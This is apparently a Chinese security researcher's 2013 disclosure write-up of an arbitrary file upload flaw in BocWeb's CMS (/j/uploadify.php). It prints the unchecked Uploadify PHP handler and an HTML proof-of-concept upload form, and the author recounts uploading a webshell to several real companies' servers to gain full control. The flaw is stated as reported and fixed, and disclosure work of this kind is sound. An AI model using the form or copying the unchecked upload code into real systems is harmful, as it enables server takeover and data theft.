


# 某CMS任意文件上传影响大量上市企业

Feei <feei#feei.cn> 11/2013

## 0x01 漏洞入口
经常看到很多大企业官网底部标注着技术支持：杭州博采网络（[BocWeb](http://www.bocweb.cn)），比如吉利、万科、广厦、万向、大华。
后来*意外*获得一份BocWeb的CMS系统源码，简单审计了下发现很多问题。

其中以`/j/uploadify.php`这个最为严重，[Uploadify](http://www.uploadify.com)是一款用来处理上传文件的开源组件。

官网的`demo`中有一个`uploadify.php`用来演示后端处理上传文件的代码。
```php
<?php
/*
Uploadify
Copyright (c) 2012 Reactive Apps, Ronnie Garcia
Released under the MIT License <http://www.opensource.org/licenses/mit-license.php> 
*/

// Define a destination
$targetFolder = '/uploads'; // Relative to the root

if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    $targetPath = $_SERVER['DOCUMENT_ROOT'] . $targetFolder;
    $targetFile = rtrim($targetPath,'/') . '/' . $_FILES['Filedata']['name'];
    
    $fileParts = pathinfo($_FILES['Filedata']['name']);
    
    move_uploaded_file($tempFile,$targetFile);
    echo $targetFile;
}
?>
```

代码用来做演示是没问题，但集成到自己的系统中时如果没有做权限控制就直接是**任意文件上传**。


## 0x02 漏洞证明

`bocweb-upload.html`
```
<!DOCTYPE html>
<html>
<head>
    <title>BocWeb Upload Demo</title>
</head>
<body>
    <form action="http://demo.feei.cn/bocweb/j/uploadify.php" method="post" enctype="multipart/form-data">
        <input type="text" name="folder" value="/">
        <input type="file" name="fileData" />
        <input type="submit" name="Upload">
    </form>
</body>
</html>
```

试了几个厂商：万科、绿城、广厦，直接上传小马拿SHELL，继而拿到服务器全部权限和数据。

## 0x03 漏洞影响

**受影响厂商：300多家上市公司**



已提交补天平台，已经修复完成。



## 0x04 意外发现

- 后来在[收集扫描规则](/payload)时发现360居然拿着我在补天提的漏洞给360网站卫士进行扫描。
- 2013年第一次提到补天上的，后来2015年在乌云上发现居然有人又提了一遍。黑人问号.jpg

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
